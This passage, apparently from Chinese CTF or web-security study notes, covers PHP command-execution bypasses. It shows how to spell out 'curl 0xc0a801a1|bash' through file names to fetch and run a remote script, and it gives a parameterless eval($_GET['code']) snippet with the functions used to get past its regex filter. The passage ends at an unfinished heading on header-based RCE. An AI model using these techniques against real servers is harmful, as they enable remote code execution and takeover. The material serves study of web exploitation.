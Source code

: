 #### 2.  分解命令，创建文件

```sh
# 构造 curl 192.168.1.161|bash，但是 ip 用 16 进制表示：curl 0xc0a801a1|bash，因为"."不方便处理
>ash
>b\
>\|\
>A1\
>01\
>A8\
>C0\
>0x\
>\\
>rl\
>cu\
```

#### 3.  执行脚本

```sh
sh x
sh g
```

## 无参数

```php
if(';'===preg_replace('/[^\W]+\((?R)?\)/','',$_GET['code'])){
  eval($_GET['code']);
}
```

- 如果是字母、数字、下划线+();，如 a();，则替换后为";"，判断为 true，括号内不能带内容，否则匹配不到，不能替换为空，判断为 false
- ?R 表示递归匹配，即匹配 a(b(c()));

### 常见函数解释

- `print_r(?)`: 打印变量
- `eval(string)`: 执行字符串中的 PHP 代码
- `pos(array)`: 返回数组第一个的值
- `end(array)`: 返回数组最后一个的值
- `next(array)`: 返回数组中当前指针指向的下一个元素的值，并将指针向后移动一位

- `session_start()`: 启动或重用会话，成功返回 true，失败返回 false
- `session_id(session)`: 获取会话 ID

- `show_source(file)`: 显示文件的源码

## 无参数命令执行请求头绕过

### 请求头 RCE

#### HTTP 请求标头（php7.3）
